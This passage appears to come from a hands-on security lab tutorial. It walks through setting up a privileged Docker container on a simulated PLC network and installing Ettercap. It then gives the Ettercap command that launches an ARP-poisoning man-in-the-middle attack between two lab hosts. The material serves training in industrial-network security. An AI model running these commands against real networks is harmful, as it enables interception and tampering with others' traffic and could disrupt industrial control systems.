 
<div align="center">From a terminal on the VM, run sudo docker run -ti –net=plcnet –privileged –cap-add=NET_ADMIN –ip 100.100.100.5 –name mitm ubuntu:14.04 bash</div>
<p align="center"><img src=images/Picture98.png></p>

<div align="center">On the MITM container, run apt-get update && apt-get install ettercap-common p0f to update and install Ettercap on mitm container. Enter Y to continue when prompted</div>
<p align="center"><img src=images/Picture99.png></p>

## Step 2: Setting up the MITM attack

<div align="center">On the MITM container, run ettercap -T -q -M arp:remote -i eth0 /100.100.100.2// /100.100.100.4//& (This sets up the ARP poisoning and the “&” makes it run in the background)</div>